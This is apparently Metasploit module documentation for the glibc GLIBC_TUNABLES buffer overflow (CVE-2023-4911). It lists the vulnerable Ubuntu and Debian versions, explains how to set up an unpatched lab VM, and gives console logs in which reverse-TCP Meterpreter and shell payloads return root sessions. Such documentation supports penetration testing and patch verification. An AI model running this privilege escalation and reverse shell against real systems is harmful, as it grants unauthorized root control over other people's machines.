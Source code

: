 ## Vulnerable Application

A buffer overflow was exists in the GNU C Library's dynamic loader ld.so while processing the GLIBC_TUNABLES environment
variable. This issue allows an local attacker to use maliciously crafted GLIBC_TUNABLES environment variables when
launching binaries with SUID permission to execute code in the context of the root user. 

This module targets glibc packaged on Ubuntu and Debian. The specific versions this module targets are:

Ubuntu:
2.35-0ubuntu3.4 > 2.35
2.37-0ubuntu2.1 > 2.37
2.38-1ubuntu6 > 2.38

Debian: 
2.31-13-deb11u7 > 2.31
2.36-9-deb12u3 > 2.36

Fedora 37 and 38 and other distributions of linux also come packaged with versions of glibc vulnerable to CVE-2023-4911
however this module does not target them.  

### Description

The GLIBC_TUNABLES environment variable is parsed in a loop and is expected to be provided in the following format:
`tunable1=aaa:tunable2=bbb`. If the variable is sent in the following format: `tunable1=tunable2=AAA` due to the
absence of the tunable delimiter `:` in the string, the value `tunable2=AAA` is handled incorrectly and results in a
buffer overflow.

### Setup

Install [Ubuntu 22.04.3](https://releases.ubuntu.com/jammy/ubuntu-22.04.3-desktop-amd64.iso) while ensuring the VM does 
not have internet access. 

Once booted up, edit `/etc/apt/apt.conf.d/20auto-upgrades` and change `APT::Periodic::Unattended-Upgrade` from `1` to
`0` to ensure to ensure the machine doesn't patch itself.

Ensure that glibc is at version 2.35-0ubuntu3.1 by running the following:
```
msfuser@msfuser-virtual-machine:~$ ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```
The target should be exploitable.

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use exploit/linux/local/glibc_tunables_priv_esc`
4. Do: `set SESSION [SESSION]`
5. Do: `check`
6. Do: `run`
7. You should get a new *root* session

## Scenarios

### Ubuntu 22.04.3 with 2.35-0ubuntu3.1 installed (ARCH_X64)
```
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set session -1
session => -1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/glibc_tunables_priv_esc) > set lport 5555
lport => 5555
msf6 exploit(linux/local/glibc_tunables_priv_esc) > options

Module options (exploit/linux/local/glibc_tunables_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION  -1               yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf6 exploit(linux/local/glibc_tunables_priv_esc) > run

View the full module info with the info, or info -d command.

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.35-0ubuntu3.1) found on the target appears to be vulnerable
[+] The Build ID for ld.so: 61ef896a699bb1c2e4e231642b2e1688b2f1a61e is in the list of supported Build IDs for the exploit.
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (3045380 bytes) to 192.168.123.228
[*] Meterpreter session 5 opened (192.168.123.1:5555 -> 192.168.123.228:33016) at 2023-12-19 10:53:09 -0500

meterpreter >getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.123.228
OS           : Ubuntu 22.04 (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >

```

### Debian 12 with 2.36-9-deb12u1 installed (ARCH_X64)
```
msf6 exploit(linux/local/looney_tunables_lpe) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.36-9-deb12u1) found on the target appears to be vulnerable
[*] Writing '/tmp/SnnDbAMC.py' (13770 bytes) ...
[*] Running python3 /tmp/SnnDbAMC.py
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (38 bytes) to 192.168.123.229
[+] Deleted /tmp/SnnDbAMC.py
[*] Command shell session 9 opened (192.168.123.1:4444 -> 192.168.123.229:50854) at 2023-11-14 21:03:57 -0500

id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),113(lpadmin),116(scanner),1000(msfuser)
uname -a
Linux debian 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-2 (2023-07-27) x86_64 GNU/Linux
```

